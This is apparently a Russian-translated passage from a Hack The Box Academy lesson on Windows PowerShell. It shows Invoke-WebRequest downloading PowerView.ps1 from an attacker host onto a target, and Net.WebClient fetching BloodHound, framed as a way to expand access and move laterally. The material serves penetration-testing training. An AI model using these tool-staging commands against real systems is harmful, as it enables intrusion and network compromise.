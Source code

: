 #### Загрузка PowerView.ps1 с веб-сервера (с атакующего хоста на целевой хост)

  Взаимодействие с Интернетом

```powershell-session
Invoke-WebRequest -Uri "http://10.10.14.169:8000/PowerView.ps1" -OutFile "C:\PowerView.ps1"
```

Как мы уже говорили, мы можем использовать командлет Invoke-WebRequest для отправки команд на удалённые хосты. Это может быть очень полезно, особенно когда мы обнаруживаем уязвимости, которые позволяют нам выполнять команды на целевом компьютере под управлением Windows, но к которому у нас может не быть доступа через интерактивную оболочку или сеанс удалённого рабочего стола. Это может позволить нам загружать файлы на целевой хост, что расширит наши возможности доступа к этому целевому компьютеру и позволит перейти к другим компьютерам в сети. Методы передачи файлов более подробно описаны в модуле [Передача файлов](https://academy.hackthebox.com/module/details/24).

### Что делать, если мы не можем использовать Invoke-WebRequest?

Что же произойдёт, если по какой-то причине мы не сможем использовать `Invoke-WebRequest`? Не стоит бояться: Windows предоставляет несколько различных способов взаимодействия с веб-клиентами. Первый и более сложный способ взаимодействия — использование класса [.Net.WebClient](https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient?view=net-7.0). Этот удобный класс представляет собой вызов .Net, который мы можем использовать, поскольку Windows поддерживает .Net. Этот класс содержит стандартные методы system.net для взаимодействия с ресурсами через URI (веб-адреса, например github.com/project/tool.ps1). Давайте рассмотрим пример:

#### Загрузка через Net.WebClient

  Взаимодействие с Интернетом

```powershell-session
PS C:\htb> (New-Object Net.WebClient).DownloadFile("https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-win32-x64.zip", "Bloodhound.zip")

PS C:\htb> ls

    Directory: C:\Users\MTanaka

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a---          11/10/2022 10:45 AM      108511752 Bloodhound.zip
-a---           6/14/2022  8:22 AM           4418 passwords.kdbx
-a---            9/9/2020  4:54 PM         696576 Start.exe
-a---           9/11/2021 12:58 PM              0 sticky.gpr
-a---          11/10/2022 10:44 AM      108511752 test.zip
```

Итак, это сработало. Давайте разберёмся, что мы сделали:

- Сначала у нас есть шаблон Download `(New-Object Net.WebClient).DownloadFile()`, с помощью которого мы указываем, как выполнить наш запрос.
- Далее нам нужно указать URI файла, который мы хотим скачать, в качестве первого параметра в (). В данном примере это `"https://github.com/BloodHoundAD/BloodHound/releases/download/4.2.0/BloodHound-win32-x64.zip"`.
- Наконец, нам нужно указать команде, куда нужно записать файл, с помощью второго параметра `, "BloodHound.zip"`.
